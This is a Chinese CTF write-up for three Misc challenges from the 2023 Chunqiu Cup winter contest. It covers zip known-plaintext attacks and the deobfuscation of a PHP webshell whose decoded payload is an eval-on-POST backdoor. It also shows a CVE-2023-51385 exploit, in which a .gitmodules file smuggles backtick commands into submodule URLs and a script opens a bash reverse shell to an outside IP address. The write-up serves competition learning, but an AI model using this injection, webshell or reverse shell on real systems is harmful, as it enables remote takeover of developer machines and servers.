# 2023 春秋杯冬季赛 Misc Writeup

后来再回头看自己当初没做出来的题，也是感触颇深
<!--more-->


## 谁偷吃的了我的外卖

附件给了一张 jpg 图片，foremost 一下可以得到一个压缩包，解压得到另一个加密的压缩包



看到里面有很多标好序号的文件，然后后面还跟有一串字符串

根据压缩包注释中的提示：- 要用 / 替换，基本可以猜测就是 base64 编码了

使用 Winrar 的生成报告功能提取所有文件的文件名



但是提取出来的文件名是乱序的，因此我写一个脚本排序并提取，然后把 - 用 / 替换

```python
with open('1.txt', "r") as f:
    data = f.read().split()

# 将数据按 "_" 前面的数字排序
sorted_data = sorted(data, key=lambda x: int(x.split('_')[0]))
# print(sorted_data[:20])
# 连接排序后的字符串部分
result = ''.join([item.split('_')[1] for item in sorted_data])
result = result.replace("-", "/")
print(result)
```

将提取出来的数据 base64 解码后发现少了 zip 的文件头，之前压缩包中的注释也提示了这个



加上文件头后 From Hex 解码即可得到一个压缩包



在那个 md 文件中得到 flag 的第一部分



然后回头看之前那个压缩包，发现里面的两个文件和这个压缩包中的一样

因此猜测需要明文攻击，钥匙.png 也提示了我们需要用的压缩软件和压缩格式



方法一：Advanced Archive Password Recovery



爆破完后即可得到解密后的压缩包，在 txt.galf 中得到 reverse 的第二段 flag



方法二：bkcrack

把 钥匙.png 用 bandzip 的 正常压缩格式 压缩为 flag.zip，然后爆破密钥即可



CyberChef 中 reverse 一下即可得到最后的 flag：flag{W1sh_y0u_AaaAaaaaaaaaaaa_w0nderfu1_CTF_journe9}

## 明文混淆

附件给了一个压缩包，打开一看发现是 store 加密，因此猜测需要明文攻击



去网上搜了一下文件大小为 35821 的 LICENSE.txt，发现有个统一的标题





这个标题的长度也满足了明文攻击的要求，因此我们使用 bkcrack 进行明文攻击



在 shell2.php 中得到以下 php 代码，是微盾php混淆

```php
<?php
$O00OO0=urldecode("%6E1%7A%62%2F%6D%615%5C%76%740%6928%2D%70%78%75%71%79%2A6%6C%72%6B%64%679%5F%65%68%63%73%77%6F4%2B%6637%6A");$O00O0O=$O00OO0{3}.$O00OO0{6}.$O00OO0{33}.$O00OO0{30};$O0OO00=$O00OO0{33}.$O00OO0{10}.$O00OO0{24}.$O00OO0{10}.$O00OO0{24};$OO0O00=$O0OO00{0}.$O00OO0{18}.$O00OO0{3}.$O0OO00{0}.$O0OO00{1}.$O00OO0{24};$OO0000=$O00OO0{7}.$O00OO0{13};$O00O0O.=$O00OO0{22}.$O00OO0{36}.$O00OO0{29}.$O00OO0{26}.$O00OO0{30}.$O00OO0{32}.$O00OO0{35}.$O00OO0{26}.$O00OO0{30};eval($O00O0O("JE8wTzAwMD0idVNxTHlDandXcFpIaGlLbWZGR1ZUQmFOcllvSXpsZWd4Sk1iUkRVRUFrUWN0bnZzZE9QWGladnVUYWdmY0hiWFloZVdNeUtObEx3U2pvQ25ydEFCeE9RRHNKcGRrUG1JekdFVlJVRnFGSjlmd1hrZWJxYllEYVlHQVd0aWJXeFlSS3BDb1d5cmJsbzBxMnN0bzI5UGJaQkdObExHUnlRNEF0T2dzUFNlc2E5THBkc0VEeVJwVVhzZU5kVjRScDVyUjNtNHNkUkZJR0hPSTJ0bmJQdGxTS3oybEdIYkFHSE53Z3k1TlBiTk5QejROV0M1TnJMMElXU2RtcGQ5RlpJSGVaUDdua0MvRkI9PSI7ZXZhbCgnPz4nLiRPMDBPME8oJE8wT08wMCgkT08wTzAwKCRPME8wMDAsJE9PMDAwMCoyKSwkT08wTzAwKCRPME8wMDAsJE9PMDAwMCwkT08wMDAwKSwkT08wTzAwKCRPME8wMDAsMCwkT08wMDAwKSkpKTs="));
?>
```

这里这道题比较简单，只要按照步骤依次 echo 出来就能得到 flag

```php
<?php
$O00OO0=urldecode("%6E1%7A%62%2F%6D%615%5C%76%740%6928%2D%70%78%75%71%79%2A6%6C%72%6B%64%679%5F%65%68%63%73%77%6F4%2B%6637%6A");
$O00O0O=$O00OO0{3}.$O00OO0{6}.$O00OO0{33}.$O00OO0{30};
$O0OO00=$O00OO0{33}.$O00OO0{10}.$O00OO0{24}.$O00OO0{10}.$O00OO0{24};
$OO0O00=$O0OO00{0}.$O00OO0{18}.$O00OO0{3}.$O0OO00{0}.$O0OO00{1}.$O00OO0{24};
$OO0000=$O00OO0{7}.$O00OO0{13};
$O00O0O.=$O00OO0{22}.$O00OO0{36}.$O00OO0{29}.$O00OO0{26}.$O00OO0{30}.$O00OO0{32}.$O00OO0{35}.$O00OO0{26}.$O00OO0{30};
eval($O00O0O("JE8wTzAwMD0idVNxTHlDandXcFpIaGlLbWZGR1ZUQmFOcllvSXpsZWd4Sk1iUkRVRUFrUWN0bnZzZE9QWGladnVUYWdmY0hiWFloZVdNeUtObEx3U2pvQ25ydEFCeE9RRHNKcGRrUG1JekdFVlJVRnFGSjlmd1hrZWJxYllEYVlHQVd0aWJXeFlSS3BDb1d5cmJsbzBxMnN0bzI5UGJaQkdObExHUnlRNEF0T2dzUFNlc2E5THBkc0VEeVJwVVhzZU5kVjRScDVyUjNtNHNkUkZJR0hPSTJ0bmJQdGxTS3oybEdIYkFHSE53Z3k1TlBiTk5QejROV0M1TnJMMElXU2RtcGQ5RlpJSGVaUDdua0MvRkI9PSI7ZXZhbCgnPz4nLiRPMDBPME8oJE8wT08wMCgkT08wTzAwKCRPME8wMDAsJE9PMDAwMCoyKSwkT08wTzAwKCRPME8wMDAsJE9PMDAwMCwkT08wMDAwKSwkT08wTzAwKCRPME8wMDAsMCwkT08wMDAwKSkpKTs="));
//echo $O00O0O("JE8wTzAwMD0idVNxTHlDandXcFpIaGlLbWZGR1ZUQmFOcllvSXpsZWd4Sk1iUkRVRUFrUWN0bnZzZE9QWGladnVUYWdmY0hiWFloZVdNeUtObEx3U2pvQ25ydEFCeE9RRHNKcGRrUG1JekdFVlJVRnFGSjlmd1hrZWJxYllEYVlHQVd0aWJXeFlSS3BDb1d5cmJsbzBxMnN0bzI5UGJaQkdObExHUnlRNEF0T2dzUFNlc2E5THBkc0VEeVJwVVhzZU5kVjRScDVyUjNtNHNkUkZJR0hPSTJ0bmJQdGxTS3oybEdIYkFHSE53Z3k1TlBiTk5QejROV0M1TnJMMElXU2RtcGQ5RlpJSGVaUDdua0MvRkI9PSI7ZXZhbCgnPz4nLiRPMDBPME8oJE8wT08wMCgkT08wTzAwKCRPME8wMDAsJE9PMDAwMCoyKSwkT08wTzAwKCRPME8wMDAsJE9PMDAwMCwkT08wMDAwKSwkT08wTzAwKCRPME8wMDAsMCwkT08wMDAwKSkpKTs=");

$O0O000="uSqLyCjwWpZHhiKmfFGVTBaNrYoIzlegxJMbRDUEAkQctnvsdOPXiZvuTagfcHbXYheWMyKNlLwSjoCnrtABxOQDsJpdkPmIzGEVRUFqFJ9fwXkebqbYDaYGAWtibWxYRKpCoWyrblo0q2sto29PbZBGNlLGRyQ4AtOgsPSesa9LpdsEDyRpUXseNdV4Rp5rR3m4sdRFIGHOI2tnbPtlSKz2lGHbAGHNwgy5NPbNNPz4NWC5NrL0IWSdmpd9FZIHeZP7nkC/FB==";
/*eval('?>'.$O00O0O($O0OO00($OO0O00($O0O000,$OO0000*2),$OO0O00($O0O000,$OO0000,$OO0000),$OO0O00($O0O000,0,$OO0000))));*/

/*echo '?>'.$O00O0O($O0OO00($OO0O00($O0O000,$OO0000*2),$OO0O00($O0O000,$OO0000,$OO0000),$OO0O00($O0O000,0,$OO0000)));*/
//eval(gzinflate(base64_decode('U0gtS8zRcFCJD/APDolWT8tJTK8uNswt8DGOrzIsiHfIS4kvNzYzzUj1yVFUVKxVj9W0trcDAA==')));
echo gzinflate(base64_decode('U0gtS8zRcFCJD/APDolWT8tJTK8uNswt8DGOrzIsiHfIS4kvNzYzzUj1yVFUVKxVj9W0trcDAA=='));
//eval(@$_POST['flag{s1mpL3_z1p_@nd_w365heLl!!!}']);?>
?>
```

flag{s1mpL3_z1p_@nd_w365heLl!!!}'

## Module

CVE-2023-51385

参考博客：

https://blog.csdn.net/weixin_46944519/article/details/135249657

在国内的 Gitee 上新建一个仓库包含以下两个文件，然后直接 git clone -v  项目地址 --recurse-submodules 即可

.gitmodules 文件内容如下：

```
[submodule "cve"]
	path = cve
	url = https://`echo helloworld > cve.txt`foo.ichunqiu.com/bar
[submodule "test"]
	path = test
	url = ssh://`bash shell.sh`foo.ichunqiu.com/bar
```

shell.sh 内容如下：

```bash
bash -c 'exec bash -i &>/dev/tcp/8.130.93.84/3232 <&1'
```

